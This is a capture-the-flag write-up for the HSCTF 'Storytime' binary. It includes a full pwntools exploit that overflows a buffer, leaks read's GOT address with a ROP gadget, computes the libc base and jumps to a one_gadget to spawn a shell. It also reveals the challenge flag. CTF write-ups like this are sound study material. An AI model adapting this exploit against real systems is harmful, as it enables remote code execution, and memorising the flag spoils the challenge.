 # Storytime (BINARY)

![Title](images/title.png)

## Initial Thoughts

* Strings shows some interesting strings that are not shown with simple input into the program. Diving into the symbols
* Symbols show beginning, middle, climax and end functions. Appears to be more rop chaining.

# Walkthrough

I did not end up figuring this one out by the challenge end but I understand now its another overflow where we need to leak an address in order to find libc and call system

Some of the other binary challenges use libc6_2.23-0ubuntu11_amd64.so so I tried it with this one and it worked fine.

Lets setup the elf and libc using pwntools and get the offsets and symbols we need.


```python
p = remote('pwn.hsctf.com', 3333)
e = ELF('./storytime')
libc = ELF('./libc6_2.23-0ubuntu11_amd64.so')

read_got = e.got['read']
read_offset = libc.symbols['read']
```

I used __ROPgadget --binary ./storytime__ in order to find a gadget we can use to write the address of read in the Global Offset Table. We can use __0x0000000000400701 : pop rsi ; pop r15 ; ret__ So the idea is to fill the buffer, call the pop rsi and fill it with the read_got function. Fill the r15 with junk then call the climax function so we have a place to overflow then fill the last register with junk. I also used __one_gadget libc6_2.23-0ubuntu11_amd64.so__ in order to find the address that will allow us to gain a shell in the last payload

```python
pop_rsi = 0x0000000000400701 # pop rsi ; pop r15 ; ret
padding = 'A'*56
climax = e.symbols['climax']
one_gadget = 0x4526a
payload = ""
payload+= padding
payload+= p64(pop_rsi)
payload+= p64(read_got)
payload+= p64(0x3030303030303030)
payload+= p64(0x0000000000400601)
payload+= p64(0x3030303030303030)
payload+= p64(climax)
```

Lastly is to send our payload, calculate the libc base and add it to our one_gadget so we can gain a shell with our second payload. See below for the final code.

<details>
	<summary>Final Code</summary>

```python
#!/usr/bin/env python

from pwn import *

p = remote('pwn.hsctf.com', 3333)
e = ELF('./storytime')
#p = process(e.path)
libc = ELF('./libc6_2.23-0ubuntu11_amd64.so')

read_got = e.got['read']
read_offset = libc.symbols['read']
pop_rsi = 0x0000000000400701 # pop rsi ; pop r15 ; ret
padding = 'A'*56
climax = e.symbols['climax']
one_gadget = 0x4526a

payload = ""
payload+= padding
payload+= p64(pop_rsi)
payload+= p64(read_got)
payload+= p64(0x3030303030303030)
payload+= p64(0x0000000000400601)
payload+= p64(0x3030303030303030)
payload+= p64(climax)

p.sendline(payload)

print p.recvuntil('Tell me a story: \n')
leak = u64(p.recv(8))

print 'Leak: '+hex(leak)

libc = leak - read_offset
print 'libc: '+hex(libc)

one_shot = one_gadget + libc
payload = ""
payload+= 'A'*56
payload+= p64(one_shot)

p.sendline(payload)
p.sendline('cat flag')
p.interactive()
# payload = ""
# payload+= padding
# payload+= p64(one_shot)
# p.sendline(payload)
# p.interactive()
```
</details>

<details>
	<summary>Flag</summary>

hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}
</details>